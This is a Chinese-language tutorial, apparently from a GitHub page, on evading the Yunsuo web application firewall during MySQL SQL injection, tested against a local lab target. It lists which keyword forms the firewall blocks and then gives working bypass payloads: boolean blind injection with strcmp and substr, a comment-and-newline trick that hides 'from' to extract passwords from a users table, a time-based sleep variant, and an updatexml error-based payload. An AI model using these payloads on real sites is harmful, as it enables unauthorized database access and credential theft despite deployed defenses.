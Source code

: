 # 0x00 简单and探索

首先都是来测试下 and的绕过 

```
and 不拦截

and 1 拦截

and a 不拦截

and 'a' 不拦截

and 'a' > < =  拦截

```

差不多知道他的规则了 绕过来就很简单了 

```
mysql> select 'a'-0;
+-------+
| 'a'-0 |
+-------+
|     0 |
+-------+
1 row in set, 1 warning (0.00 sec)

mysql> select 'a'+1;
+-------+
| 'a'+1 |
+-------+
|     1 |
+-------+
1 row in set, 1 warning (0.00 sec)

mysql> select 'a'|1;
+-------+
| 'a'|1 |
+-------+
|     1 |
+-------+
1 row in set, 1 warning (0.00 sec)


and 'a'-0  不拦截

and 'a'|1  不拦截

```


# 0x01 我与云锁有个约会

早期云锁绕过非常简单，只需要在post 和 get 同时提交数据 他会只检测post的内容，很轻松的绕过，但是更新后云锁也是很多人谈之色变的。

以下内容都是把云锁的增强型防护开启


1. 简单的布尔盲注

```
and strcmp((substr((select user/**/()),2,1)),'0')

```

生僻函数绕过 这里比较难的点其实也在from，但是比云盾好点，毕竟可以用到注释

```
http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select from),2,1)),'0')-- +  拦截

http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select /*from*/),2,1)),'0')-- + 不拦截

```

看到这两条语句其实我们可以清楚的知道`/**/` 是我们可以利用的点,结合前面的知识我们只需要把我们的from放在注释里面然后把注释不起作用就OK


```
http://192.168.130.135/Less-1/?id=1'  and strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')-- +

```

![mysql](./img/2.5.1.png)

2. 时间盲注

时间盲注换换就行

```
http://192.168.130.135/Less-1/?id=1'  and if((strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')),1,sleep(5))-- +

```

3. 联合注入

```
http://192.168.130.135/Less-1/?id=1'  and `updatexml`(1,concat(0x7e,(select user/**/()),0x7e),1)/**/-- +

```

其他的自己探索吧,bypass也就一个知识量和思路的结合

![mysql](./img/2.5.2.png)

# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404

